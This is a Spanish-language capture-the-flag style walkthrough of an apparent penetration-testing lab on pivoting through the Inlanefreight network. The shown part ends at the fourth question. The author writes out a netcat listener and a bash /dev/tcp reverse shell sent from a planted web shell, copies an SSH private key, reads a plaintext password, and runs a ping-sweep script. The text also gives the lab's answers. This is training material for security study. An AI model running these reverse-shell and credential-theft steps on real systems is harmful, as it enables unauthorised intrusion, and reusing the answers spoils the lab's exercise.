 ## Scenario

A team member started a Penetration Test against the Inlanefreight environment but was moved to another project at the last minute. Luckily for us, they left a `web shell` in place for us to get back into the network so we can pick up where they left off. We need to leverage the web shell to continue enumerating the hosts, identifying common services, and using those services/protocols to pivot into the internal networks of Inlanefreight. Our detailed objectives are `below`:

---

## Objectives

- Start from external (`Pwnbox or your own VM`) and access the first system via the web shell left in place.
- Use the web shell access to enumerate and pivot to an internal host.
- Continue enumeration and pivoting until you reach the `Inlanefreight Domain Controller` and capture the associated `flag`.
- Use any `data`, `credentials`, `scripts`, or other information within the environment to enable your pivoting attempts.
- Grab `any/all` flags that can be found.


---
Target: 10.129.229.129
**1. Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.**
Nos ponemos en escucha por el puerto 1234 con: 
```
nc -lvnp 1234
```
Desde la webshell ubicada en: http://10.129.229.129, ejecuto:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.216/1234 0>&1' &
```

Para enviarme una revershell a mi máquina atacante.

Al recibirla, la acondiciono con:
 ```
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
 ```

Veo:
```
www-data@inlanefreight:/home$ tree
.
|-- administrator
`-- webadmin
    |-- for-admin-eyes-only
    `-- id_rsa
```

Me copio el contenido de "id_rsa" en mi máquina atacante.
```
chmod 600 id_rsa
```

Siendo la respuesta del ejercicio: webadmin

**2. Submit the credentials found in the user's home directory. (Format: user:password)**
Entro en la sesión ssh con: 
```
ssh webadmin@10.129.229.129 -i id_rsa
```

Y puedo acceder al contenido de "for-admin-eyes-only":
```
webadmin@inlanefreight:~$ cat for-admin-eyes-only 
# note to self,
in order to reach server01 or other servers in the subnet from here you have to us the user account:mlefay
with a password of : 
Plain Human work!
```

Siendo la respuesta: "mlefay:Plain Human work!"


** 3. Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.**

Creamos un pequeño script en la máquina SSH con: 

```
vim escaneador.sh
```

Con el siguiente contenido:
```
#!/bin/bash

# Define la base de la red y el tiempo de espera (timeout) en segundos
RED_BASE="172.16.5"
TIMEOUT="1"

echo "Iniciando escaneo en la red ${RED_BASE}.0/24..."

for i in {1..254}; do
    # -c 1: Envía solo un paquete
    # -W $TIMEOUT: Espera solo 1 segundo por respuesta
    # 2>/dev/null: Descarta errores (hosts que no responden)
    # grep 'ttl=': Busca la cadena exacta de respuesta exitosa
    
    ping -c 1 -W $TIMEOUT "${RED_BASE}.$i" 2>/dev/null | grep 'ttl=' &
done

# Espera a que terminen todos los pings en segundo plano
wait

echo "Escaneo completado."
```

Le damos permisos de ejecución con:

```
chmod +x escaneador.sh
```

Y nos encuentra: 
```
Iniciando escaneo en la red 172.16.5.0/24...
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.041 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.491 ms
Escaneo completado.
```

Respuesta: 172.16.5.35

**4. Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.**

